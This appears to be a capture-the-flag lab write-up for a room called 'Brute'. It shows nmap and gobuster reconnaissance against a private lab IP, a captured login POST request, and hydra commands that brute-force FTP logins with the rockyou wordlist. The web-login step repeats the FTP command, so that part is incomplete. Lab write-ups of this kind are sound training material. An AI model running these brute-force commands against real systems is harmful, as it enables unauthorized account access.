



# Brute
--------------------------------------------------------------------

**TOOLS USED**: nmap, gobuster

--------------------------------------------------------------------

## GIVEN INFO


**IP Address**: 10.10.22.218

--------------------------------------------------------------------

## PROCEDURE

### 1. RECON

-sV: probe open ports to determine service/version info<br>
-sC: scrit scan<br>
-oN OUTPUT_FILE: output results to given filename<br>
-p-: scan all ports
```
nmap -sC -sV -p- -oN nmap.txt 10.10.22.218
```



**EXPOSED PORT (SERVICE)**:<br>
    21 (ftp vsftpd 3.0.3)
    22 (ssh OpenSSH 8.2p1),<br>
    80 (http Apache httpd 2.4.41),<br>
    749,<br>
    3306 (mysql),<br>
    25735,<br>
    33354


Enumerate hidden directories on website on port 80
```
gobuster dir -u 10.10.22.218 -w /usr/share/wordlists/dirb/common.txt
```



index.html is a login page

### BRUTE FORCE FTP LOGIN

```
hydra -L /usr/share/wordlists/rockyou.txt.gz -P /usr/share/wordlists/rockyou.txt.gz ftp://10.10.22.218 -V
```


### BRUTE FORCE

Use Burp Suite to see post request



```
POST /index.php HTTP/1.1
Host: 10.10.22.218
Content-Length: 28
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.22.218
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://10.10.22.218/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=8p49227bpvg8k39sdo819ljeha
Connection: close

username=admin&password=pass
```

Use hydra to brute force login
```
hydra -L /usr/share/wordlists/rockyou.txt.gz -P /usr/share/wordlists/rockyou.txt.gz ftp://10.10.22.218 -V
```